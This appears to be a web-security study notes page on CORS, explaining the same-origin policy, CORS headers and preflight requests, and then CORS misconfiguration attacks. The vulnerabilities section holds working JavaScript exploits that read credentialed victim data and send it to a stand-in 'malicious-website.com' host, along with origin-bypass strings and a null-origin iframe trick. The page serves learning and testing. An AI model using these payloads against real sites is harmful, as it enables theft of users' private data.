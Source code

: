 # CORS

<details>

<summary>Same-origin policy (SOP)</summary>

* The same-origin policy restricts scripts on one origin from accessing data from another origin.

<!---->

* An origin consists of a URI scheme, domain and port number.

<!---->

* The SOP prevents a malicious website from running JS in a browser to read data from a third-party website. (There are various exceptions)

<!---->

* The SOP allows embedding of images via the `<img>` `<video>` `<script>`.
  * However, while these external resources can be loaded by the page, any JavaScript on the page won't be able to read the contents of these resources.

</details>

<details>

<summary>Cross-origin resource sharing</summary>

The cross-origin resource sharing specification provides controlled relaxation of the same-origin policy. The CORS specification identifies a collection of protocol headers

* `Origin` header added by the browser.
  * ```
    Origin : https://normal-website.com
    ```
* `Access-Control-Allow-Origin` returned by a server when a website requests a cross-domain resource.
  * ```http
    Access-Control-Allow-Origin: https://normal-website.com
    ```

This means that the browser will allow code running on normal-website.com to access the response because the origins match.

Note: `Access-Control-Allow-Origin` is returned only if the whitelisted values or `*` or `null` matched the Origin.



**Access-Control-Allow-Origin: \***

The use of the wildcard `*` is restricted in the specification as you cannot combine the wildcard with the cross-origin transfer of credentials (authentication, cookies or client-side certificates). This following response is not permitted

```http
Access-Control-Allow-Origin: *
Access-Control-Allow-Credentials: true
```



**Access-Control-Allow-Origin: null**

Specifies that only origins with a `null` origin are allowed to access the resource. Browsers might send the value `null` in the Origin header in various unusual situations:

* Cross-origin redirects.
* Requests from serialized data.
* Request using the `file` protocol.
* Sandboxed cross-origin requests.

</details>

<details>

<summary>Pre-flight checks</summary>

Under certain circumstances, when a cross-domain request includes a non-standard HTTP method or headers, the cross-origin request is preceded by a request using the OPTIONS method.

For example, this is a pre-flight request that is seeking to use the PUT method together with a custom request header called Special-Request-Header

```http
OPTIONS /data HTTP/1.1
Host: <some website>
...
Origin: https://normal-website.com
Access-Control-Request-Method: PUT
Access-Control-Request-Headers: Special-Request-Header
```

```http
HTTP/1.1 204 No Content
...
Access-Control-Allow-Origin: https://normal-website.com
Access-Control-Allow-Methods: PUT, POST, OPTIONS
Access-Control-Allow-Headers: Special-Request-Header
Access-Control-Allow-Credentials: true
Access-Control-Max-Age: 240
```

* This response sets out the allowed methods (PUT, POST and OPTIONS) and permitted request headers (Special-Request-Header). In this particular case the cross-domain server also allows the sending of credentials (authentication, cookies or client-side certificates), and the Access-Control-Max-Age header defines a maximum timeframe for caching the pre-flight response for reuse
* More info about preflight: https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS#preflighted\_requests

</details>

## <mark style="color:yellow;">Vulnerabilities</mark>

**Server-generated ACAO header from client-specified Origin header**

Some app read the Origin header from requests and including a response header stating that the requesting origin is allowed.

Detection&#x20;

Send request with `Origin: https://example.com` and see if the origin is reflected in the `Access-Control-Allow-Origin` header.

Exploit

```html
<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
	location='//malicious-website.com/log?key='+this.responseText;
};
</script>
```

***

**Errors parsing Origin headers**

* Some apps enable access from various sources through a whitelist of permitted origins
* Suppose `normal-website.com`
* Use as origin: `hackersnormal-website.com` or `normal-website.com.evil-user.net`

{% hint style="info" %}
**Note**: you need to know the whitelisted origins.
{% endhint %}

***

**Whitelisted null origin value**

Detection

Send request with `Origin: null` and see if the response has `Access-Control-Allow-Origin: null`

Exploit

```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
location='https://malicious-website.com/log?key='+this.responseText;
};
</script>"></iframe>
```

***

#### Exploiting XSS via CORS trust relationships <a href="#exploiting-xss-via-cors-trust-relationships" id="exploiting-xss-via-cors-trust-relationships"></a>

Suppose that:

```http
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://subdomain.vulnerable-website.com
Access-Control-Allow-Credentials: true
```

If you find an xss on `subdomain.vulnerable-website.com` inject JavaScript that uses CORS and retrieve information.

```
https://subdomain.vulnerable-website.com/?xss=<script>cors-stuff-here</script>
```
